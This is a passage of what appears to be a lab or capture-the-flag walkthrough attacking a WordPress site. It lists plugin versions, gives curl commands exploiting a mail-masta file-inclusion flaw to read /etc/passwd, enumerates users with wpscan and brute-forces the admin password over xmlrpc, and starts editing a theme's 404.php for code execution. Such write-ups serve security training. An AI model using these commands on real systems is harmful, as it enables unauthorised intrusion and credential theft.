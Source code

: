 * WordPress (5.1.6)
* mail-masta (1.0)
* photo-gallery (1.5.34)
* wp-google-places-review-slider (6.1)

There is an exploit for mail-masta : [40290](https://www.exploit-db.com/exploits/40290).

```bash
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/lists/csvexport.php?pl=/etc/passwd
```

### User Bruteforce

List all users on WordPress :

```bash
wpscan --enumerate u --url http://167.172.57.150:31546
```

And you get `admin`, `david` and `roger`. To bruteforce the user password, you must use `--password-attack xmlrpc` to attempt to login with the xmlrpc method.

```bash
wpscan --url http://167.172.57.150:31546 --password-attack xmlrpc -t 20 -U admin,david -P /usr/share/wordlists/rockyou.txt
```

The credentials are `admin:sunshine1`

**Attacking the WordPress backend**

Connect with the admin credentials `admin:sunshine1` and update the file `404.php` on the theme`Twenty Seventeen`.

<figure><img src="../../../.gitbook/assets/theme-editor.png" alt=""><figcaption></figcaption></figure>
